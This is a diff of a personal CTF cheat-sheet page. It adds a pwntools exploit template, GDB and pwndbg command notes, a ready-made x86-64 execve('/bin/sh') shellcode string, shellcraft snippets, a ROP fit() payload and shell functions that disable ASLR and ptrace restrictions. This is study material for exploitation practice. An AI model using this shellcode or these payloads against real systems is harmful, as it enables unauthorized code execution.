

Before and after one commit to betaveros/cs, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high, scrolled down 33315 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
more ctf stuff

```diff
--- a/_includes/ctf.html
+++ b/_includes/ctf.html
@@ -10,9 +10,18 @@
 from pwn import *
 import re, sys
 
+# context.arch = "amd64"
+# context.terminal = ['tmux', 'splitw', '-h']
 # sys.setrecursionlimit(8000)
-conn = remote('1.2.3.4', 31337)
-# conn = process('rop')
+
+if args['REMOTE']:
+    conn = remote('1.2.3.4', 1337)
+else:
+    conn = process('executable')
+    if args['GDB']:
+        gdb.attach(conn, """set disassembly-flavor intel
+        b __libc_start_main
+        """)
 
 maze_text = conn.recvuntil('(the lower left cell is 0,0)')
 
@@ -129,16 +138,31 @@
 	<li><code>si</code>/<code>stepi</code> (until different instruction)</li>
 	<li><code>ni</code>/<code>nexti</code> (until next instruction; don't enter calls)</li>
 	<li><code>finish</code> (finish this call)</li>
+	<li><code>u</code>/<code>until <em>location</em></code></li>
 	<li><code>nextcall</code> (pwndbg)</li>
 </ul>
 
 <h4>Source lines (rare)</h4>
 
 <ul>
-	<li><code>c</code>/<code>continue</code> (until next breakpoint)
-	<li><code>s</code>/<code>step</code> (until different line)
-	<li><code>n</code>/<code>next</code> (until next line; don't enter calls)
-	<li><code>u</code>/<code>until</code> (until numerically next line, so if you're at the end of a loop, runs until after it)
+	<li><code>c</code>/<code>continue</code> (until next breakpoint)</li>
+	<li><code>s</code>/<code>step</code> (until different line)</li>
+	<li><code>n</code>/<code>next</code> (until next line; don't enter calls)</li>
+	<li><code>u</code>/<code>until</code> (until numerically next line, so if you're at the end of a loop, runs until after it)</li>
+</ul>
+
+<h4>Breaking</h4>
+
+<ul>
+	<li><code>break label</code> / <code>break *0x12345678</code></li>
+	<li><code>break label if <em>comdition</em></code></li>
+	<li><code>tbreak</code>: as above but delete the breakpoint after broken at</li>
+	<li><code>clear label</code> / <code>clear *0x12345789</code></li>
+	<li><code>clear</code> (clear breakpoint at current location)</li>
+	<li><code>i b</code>/<code>info break</code> (list breakpoints)</li>
+	<li><code>d</code>/<code>delete <em>[num]</em></code> (delete nth breakpoint from <code>i b</code> or ALL breakpoints)</li>
+	<li><code>dis</code>/<code>disable <em>[num]</em></code> (disable nth breakpoint or all)</li>
+	<li><code>enable <em>[num]</em></code> (enable nth breakpoint or all)</li>
 </ul>
 
 <h4>Examining</h4>
@@ -170,12 +194,16 @@
 
 </pre>
 
+<ul>
+	<li>
+
 <pre>info registers
 i r # inspect registers
 
 info functions
 
-info proc mappings # has heap ptr etc</pre>
+info proc mappings # has heap ptr etc
+vmmap</pre>
 
 <h4>Writing</h4>
 
@@ -197,6 +225,7 @@
 </ul>
 
 <h4>Watchpoint</h4>
+
 <ul>
 	<li><code>watch expr</code> (break when expr is written)
 	<li><code>rwatch expr</code> (break when expr is read)
@@ -204,6 +233,45 @@
 	<li><code>clear [location]</code> (delete breakpoint)
 	<li><code>clear</code> (delete current breakpoint)
 </ul>
+
+<p>There's a hardware limit on how many hardware watchpoints you can set. You can make GDB use software watchpoints with <code>set can-use-hw-watchpoints 0</code> but it is very slow.</p>
+
+<h4>Config</h4>
+<ul>
+	<li><code>config</code> (pwndbg tells you what you can config)</li>
+	<li><code>set context-sections 'disasm'</code> (if you're using <code>voltron</code> for other sections)
+	<li><code>set $base = 0x555555554000</code></li>
+	<li><code>clear [location]</code> (delete breakpoint)
+	<li><code>clear</code> (delete current breakpoint)
+</ul>
+
+<h3>Shellcode</h3>
+
+<p><a href="http://shell-storm.org/shellcode/">shell-storm.org/shellcode</a>: Most likely you want <a href="http://shell-storm.org/shellcode/files/shellcode-806.php">Dad`'s 27-byte shellcode</a> which is <code>"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"</code>.</p>
+
+<pre>
+from pwn import *
+context.arch = "amd64"
+
+shellcode = asm("""
+    mov eax, 0x3b
+    mov rdi, 0x1234567890ab ; ptr to "/bin/sh\0"
+    xor rsi, rsi
+    xor rdx, rdx
+    syscall
+""")
+</pre>
+
+Use shellcraft if you don't want to write your own assembly. Concatenate this with the other assembly and pass into <code>asm</code>:
+
+<pre>
+shellcraft.amd64.mov('rax', 0x12345678)
+shellcraft.amd64.pushstr('foobar', append_null=False)
+
+fd = 4; length = 128
+shellcraft.amd64.linux.syscall('SYS_write', fd, 'rsp', length)
+shellcraft.amd64.linux.syscall('SYS_read',  fd, 'rsp', length)
+</pre>
 
 <h3>ROP</h3>
 
@@ -252,6 +320,12 @@
 
 0x080bc6a5 : "/bin/sh"</pre>
 
+<code>fit</code> is probably better:
+
+<pre>
+code = fit({36: p32(0x080b9236) + p32(0xb)}, filler='A')
+</pre>
+
 <h4>Dynamic</h4>
 
 To ROP on your own machine:
@@ -297,7 +371,9 @@
 <li>59 (0x3b): <code>execve(const char* filename, const char *const argv, const char *const envp[])</code></li>
 </ul>
 
-<h4>ASLR randomizes</h4>
+<h4>ASLR</h4>
+
+<p>Randomizes:</p>
 
 <ul>
 	<li>Shared libraries (libc)</li>
@@ -400,3 +476,23 @@
 50 4B [03 04] "PK.." - zip and family (jar, docx...)
 52 61 72 21 "Rar!" - RAR
 7F 45 4C 46 - .ELF</pre>
+
+<h3>environment setup</h3>
+
+<pre>
+function ptrace_scope_off
+	echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
+end
+function ptrace_scope_on
+	echo 1 | sudo tee /proc/sys/kernel/yama/ptrace_scope
+end
+function aslr_off
+	echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
+end
+function aslr_on
+	echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
+end
+function hexmath
+	math "obase=16;ibase=16;$argv"
+end
+</pre>
```
